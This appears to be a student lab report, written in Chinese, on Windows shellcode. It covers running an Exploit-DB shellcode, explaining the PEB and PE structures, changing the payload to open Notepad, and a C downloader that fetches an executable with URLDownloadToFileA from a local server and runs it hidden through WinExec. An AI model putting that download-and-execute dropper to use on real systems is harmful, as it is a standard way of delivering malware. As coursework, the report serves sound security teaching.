









## shellcode实验报告 

#### 实验要求 

1. 把"https://www.exploit-db.com/shellcodes/48116"这个链接中shellcode能够成功运行
2. 能从汇编源码编译通过并成功dump
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
4. 修改shellcode功能为运行记事本程序notepad. exe
5. (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

#### 实验过程

1. "https://www.exploit-db.com/shellcodes/48116"链接中shellcode能够成功运行 

 

2. 能从汇编源码编译通过并成功dump 

 

3.  自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理 

* PEB结构体
```
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         Reserved4[3];
  PVOID                         AtlThunkSListPtr;
  PVOID                         Reserved5;
  ULONG                         Reserved6;
  PVOID                         Reserved7;
  ULONG                         Reserved8;
  ULONG                         AtlThunkSListPtr32;
  PVOID                         Reserved9[45];
  BYTE                          Reserved10[96];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved11[128];
  PVOID                         Reserved12[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

* PE文件结构 



4. 修改shellcode功能为运行记事本程序notepad. exe

* 修改源码



* 从汇编源码编译通过并成功dump



* 打开记事本



5. 通过c语言编程使用原生APT UrlDownloadToFileA下载可执行文件project.exe

* 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibraryA("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "http://127.0.0.1:8000/shellcode.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);
}
```

* 打开端口

 

* 成功运行



* 查看目录已生成a.exe

 

#### 问题及解决

* download.c运行成功但没有生成a.exe也不弹出记事本，关闭主机防火墙后问题解决